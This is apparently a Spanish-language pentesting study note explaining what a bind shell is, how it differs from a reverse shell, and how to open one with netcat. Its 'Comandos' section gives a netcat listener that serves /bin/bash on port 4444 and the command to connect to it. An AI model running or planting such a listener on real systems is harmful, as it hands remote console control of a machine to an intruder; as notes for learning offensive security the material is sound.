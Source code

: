 -------------
- Tags: #tecnica #remoto #explotacion
----------------------------
# Definición

> Esta técnica es lo opuesto de la [[Reverse Shell]], ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quine se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.

> Siendo esta la conexión más común para Shell TCP. El usuario el cual proporciona la [[shell]], espera una conexión en un puerto en específico. Cuando un cliente se conecta a este puerto, se entabla una comunicación, en la cual todo lo que envía el usuario se considera un comando que se inserta en la [[shell]] del usuario.

![[Pasted image 20230826115204.png]]

> Para realizar una **`bind shell`** usaremos [[Netcat]], con los siguientes comandos:

## Comandos

**Máquina usuario**
```bash
nc -lvp 4444 -e /bin/bash
```

**Máquina cliente**
```bash
nc IP-MAQUINA USUARIO 4444
```
